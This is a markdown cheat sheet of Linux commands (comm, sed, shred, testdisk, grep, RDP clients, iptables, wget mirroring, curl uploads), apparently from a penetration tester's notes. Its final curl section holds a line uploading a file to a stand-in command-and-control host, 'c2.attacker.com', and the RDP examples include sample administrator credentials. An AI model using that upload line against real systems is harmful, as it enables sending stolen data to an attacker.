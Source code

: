 # Useful commands in Linux

## comm

* Substitute if not satisfied with diff[^1]
```bash
comm <-123> file1 file2 2>/dev/null
```

## read
* Used for pausing mid loop and possibly asking for user input
* Usually seen with `<Press any key to continue>`
```bash
# Command below will pause the bash script till <space> is pressed
read -s -d ' '
```

## Recursive sed
* In case you want to change values in a lot of text files
* One of the many ways [^2]
* Change the 4 values between `< >`
```bash
find <DIRECTORY_TO_FIND_FROM> \( -type d -name <DIRECTORY_YOU_WANT_TO_AVOID> -prune \) -o -type f -print0 | xargs -0 sed -i 's/<ORIGINAL_TEXT>/<NEW_TEXT>/g'
```

## shred
* Delete files
* This cannot easily although still possible to be recovered
```bash
shred -u <file_to_delete>
```

## testdisk
* Recover accidentally deleted file (i.e. using `#!bash rm`)[^3]
```bash
sudo testdisk
# View step 8 of the source. Select the option "Undelete" might not be there, choose "List"
```

## ps (Wide output)
* Everybody knows `#!bash ps aux`
* this however generates a limited output
* to show the whole command, do: (add or lessen 'w' if needed)
```bash
ps auxwww
```

## grep
* Asides from the common uses of grep
* to filter out all lines ending in a specific character
    * Use case: filtering out exported URLs which has duplicates where one URL ends in '/' and one without
```bash
echo "aaaaaaa.rar\nbbbbbbbbrar" > /tmp/temp.txt

$ cat /tmp/temp.txt | grep 'rar$'
aaaaaaa.rar
bbbbbbbbrar

#Add '\b' for "word-boundary"
$ cat /tmp/temp.txt | grep '\brar$'
aaaaaaa.rar

#Just add '-v' after 'grep' to "select non-matching lines" / inverse
```

## RDP
* Connecting to a Windows host via RDP
```
 xfreerdp +nego +sec-rdp +sec-tls +sec-nla /v:<hostname/IP>  /d: /u:<username> /p:<password> /size:90%
```
* Compressed RDP for low bandwidth or slow RDP connections
```
# MTU config first
ifconfig mtu 1200 <interface>
ifconfig mtu 1200 tun0

# rdesktop
rdesktop -a 16 -z -r sound:remote -x b -g 1900x1000 -u <USERNAME> -p <PASSWORD> 192.168.1.5
rdesktop -d <domain> -u <username> -p <password or '-' for prompt> -a 16 -P -z -E -T <TAG-WindowName> <RDPHOST_IP>
rdesktop -d company.local -u administrator -p P@ssw0rd -a 16 -P -z -E -T COMPANY-DC3 10.10.10.100
```

## iptables [^4][^5]
```
# View rules
sudo iptables -L --line-numbers

# Add rule
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT
sudo iptables -A INPUT -p tcp -s 192.168.1.0/24 --dport 22 -j ACCEPT

# Drop from everybody else
sudo iptables -A INPUT -p tcp --dport 22 -j DROP

# Save rules
sudo /sbin/iptables–save

# Delete Rule
sudo iptables -D INPUT <line_num>

# Example:
# Only allow SSH connection from 192.168.1.0/24
sudo iptables -A INPUT -p tcp -s 192.168.1.0/24 --dport 22 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 22 -j DROP
```

## Mirror a website
```
wget --mirror --convert-links --adjust-extension --page-requisites --wait=1 -o wget-mirror.log --no-parent https://example.org
```

## Upload files via Curl
* Combine with [Simple HTTP Servers](/Infrastructure_Setup/Simple_Python_Go_Packages.html)
```
curl -k --user 'root:toor' --upload-file file.zip https://127.0.0.1:8000/file.zip
curl -k --user 'root:haxorz' --upload-file file.zip https://c2.attacker.com:443/file.zip
```



[^1]: [Stack Overflow](https://stackoverflow.com/questions/3724786/how-to-diff-two-file-lists-and-ignoring-place-in-list)
[^2]: [StackOverflow](https://stackoverflow.com/questions/1583219/how-to-do-a-recursive-find-replace-of-a-string-with-awk-or-sed)
[^3]: [It's FOSS](https://itsfoss.com/recover-deleted-files-linux/)
[^4]: [Fedora Project](https://docs.fedoraproject.org/en-US/quick-docs/how-to-edit-iptables-rules/)
[^5]: [Phoenixnap](https://phoenixnap.com/kb/iptables-tutorial-linux-firewall)
